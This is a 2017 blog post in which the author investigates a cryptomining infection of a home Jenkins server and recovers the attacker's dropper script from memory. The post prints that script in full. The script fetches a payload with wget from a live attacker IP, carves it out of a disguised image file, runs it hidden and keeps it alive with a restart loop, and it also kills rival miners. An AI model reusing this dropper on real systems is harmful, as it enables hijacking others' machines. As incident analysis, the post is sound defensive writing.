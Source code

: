 Title: My Jenkins was hacked
Date: 2017-07-18 07:44
Tags: mining, hack, jenkins

The story is about infecting poor Atom-based gateway host with mining software through Jenkins web UI.

Couple of days ago I noticed strange noise from my home gateway fans. The reason was all the 8 cores were 100% loaded with processes named `irq` and `irqbalanc1`.

First, I just checked the source and decided that those processes were spawned by some Jenkins job. Sadly I got no time to investigate, so 8 hours later host was infested again, but I didn't knew it yet.

Days later I finished my real life stuff and remembered about strange load. Then I went to check the logs, temperature graph, etc. Later I would know that my Jenkins web UI was exposed to the internet to let GitHub hooks start jobs and host got infested using this interface. As for now, I just fixed docker-related iptables rules to restrict access.

And here comes the interesting part, see the investigation:

```
$ ps auxfww
root      1972  0.1  0.1 782452 56964 ?        Ssl  Jul04  26:19 /usr/bin/dockerd -H fd://
root      2265  0.0  0.0 754852 13808 ?        Ssl  Jul04  15:42  \_ containerd -l unix:///var/run/docker/libcontainerd/docker-containerd.sock --shim containerd-shim --metrics-interval=0 --start-timeout 2m --state-dir /var/run/docker/libcontainerd/containerd --runtime runc
root      1431  0.0  0.0 356400  7964 ?        Sl   Jul16   0:00  |   \_ containerd-shim 771988ba8b73832a368d250397934b13503b5fc9c220d7707fb488e17e81ad5f /var/run/docker/libcontainerd/771988ba8b73832a368d250397934b13503b5fc9c220d7707fb488e17e81ad5f runc
user      1451  0.0  0.0   1104     4 ?        Ss   Jul16   0:05  |       \_ /bin/tini -- /usr/local/bin/jenkins.sh
user      1475  0.1  9.3 14247684 3065036 ?    Sl   Jul16   5:57  |           \_ java -jar /usr/share/jenkins/jenkins.war
user       888  0.0  0.0   4332  1548 ?        S    Jul16   0:05  |               \_ /bin/sh /tmp/irq
user     19520  0.0  0.0  12816   980 ?        S    Jul16   0:00  |               |   \_ grep -v grep
user     29026  0.0  0.0   4332  1576 ?        S    Jul16   0:05  |               \_ /bin/sh /tmp/irq
user     29158  691  0.0 677948 20696 ?        Sl   Jul16 14660:11  |                   \_ /var/tmp/irqbalanc1 -c /var/tmp/httpd.conf
```

Of course, file was deleted after execution, so here i restore it from RAM:

```
lsof -p 29026
cp /proc/29026/fd/10 ~/fraud.sh
cat ~/fraud.sh
```

See it's getting files from IP 185.162.10.190 (hosting company already got abuse ticket) and extracting code form those via dd using specific offset. Kinda smart.

```
#!/bin/sh
pkill -f apaceha
pkill -f cryptonight
ps ax|grep tmp|grep irqa|grep -v grep|awk '{print $1}'|xargs ps --ppid|awk '{print $1}'|grep -v PID|xargs kill -9
ps ax|grep tmp|grep irqa|grep -v grep|awk '{print $1}'|xargs kill -9
ps -u jenkins|grep sh|grep -v irq|grep -v jenkins|grep -v grep|awk '{print $1}'|xargs kill -9
#ps ax|grep httpd.conf|grep -v irq|grep -v grep|grep tmp|awk '{print $1}'|xargs kill -9
ps -ef|grep .sh|grep tmp|grep -v irq|grep -v grep|grep -v gosh|cut -c 9-15|xargs kill -9
pkill -f stratum
pkill -f mixnerdx
pkill -f performedl
# ... tons of various pkill calls here ...
ps -ef|grep '.so'|grep -v grep|cut -c 9-15|xargs kill -9;
rm -rf /tmp/httpd.conf
rm -rf /tmp/conn
rm -rf /tmp/conns
rm -f /tmp/irq.sh
rm -f /tmp/irqbalanc1

ps auxf|grep -v grep|grep "irqbalanc1"|grep defunct|awk '{print $2}'|xargs kill -9

sleepTime=20

ps -fe|grep irqbalanc1 |grep -v defunct|grep -v grep
if [ $? -ne 0 ]
    then
    echo "start process....."

    cat /proc/cpuinfo|grep aes>/dev/null
    if [ $? -ne 1 ]
        then
        wget 185.162.10.190/miu1.png -O /tmp/conn
        dd if=/tmp/conn skip=7664 bs=1 of=/tmp/irqbalanc1
    else
        wget -O /tmp/irqbalanc1 http://185.162.10.190/kworker_na
    fi

    chmod +x /tmp/irqbalanc1
    wget -O /tmp/httpd.conf http://185.162.10.190/httpd.conf
    nohup /tmp/irqbalanc1  -c /tmp/httpd.conf>/dev/null 2>&1 &
    sleep 5
    rm -rf /tmp/httpd.conf
    rm -rf /tmp/conn
    rm -rf /tmp/conns
    rm -f /tmp/irq.sh
    rm -f /tmp/irq
    rm -f /tmp/irqbalanc1
    while [ 0 -lt 1 ]
    do
        ps -fe| grep irqbalanc1 |grep -v defunct| grep -v grep
        if [ $? -ne 0 ]
            then
            echo "process not exists ,restart process now... "
            cat /proc/cpuinfo|grep aes>/dev/null
            if [ $? -ne 1 ]
                then
                wget 185.162.10.190/miu1.png -O /tmp/conn
                dd if=/tmp/conn skip=7664 bs=1 of=/tmp/irqbalanc1
            else
                wget -O /tmp/irqbalanc1 http://185.162.10.190/kworker_na
            fi

            chmod +x /tmp/irqbalanc1
            wget -O /tmp/httpd.conf http://185.162.10.190/httpd.conf
            nohup /tmp/irqbalanc1  -c /tmp/httpd.conf>/dev/null 2>&1 &
            sleep 5
            rm -rf /tmp/httpd.conf
            rm -rf /tmp/conn
            rm -rf /tmp/conns
            rm -f /tmp/irq.sh
            rm -f /tmp/irq
            rm -f /tmp/irqbalanc1
            echo "restart done ..... "
        else
            echo "process exists , sleep $sleepTime seconds "
            pkill -f cryptonight
            pkill -f apaceha
            pkill -f mixnerdx
            pkill -f performedl
            # ... tons of various pkill calls here ...
            ps -ef|grep '.so'|grep -v grep|cut -c 9-15|xargs kill -9;

        fi
        sleep $sleepTime
    done


else
    echo "runing....."
```

Then script connects to 139.60.160.248 (it is located in `httpd.conf`) and do stuff, using your CPU. I'm also sending abuse to this company to just let them know someone is playing dirty out there. Not sure if they could block this particular IP or something.

I also thoght that it is possible to find wallet accepting address within binary file (as there is no such in config file), but got no luck. Probably it could be located inside `/proc/*/cmdline` or around, but now it's too late as the process was killed.

Please let me know if you got ideas how to continue investigation.

Update: 24 hours after my abuse, header malware host was locked by it's hosting provider. Hoorray!

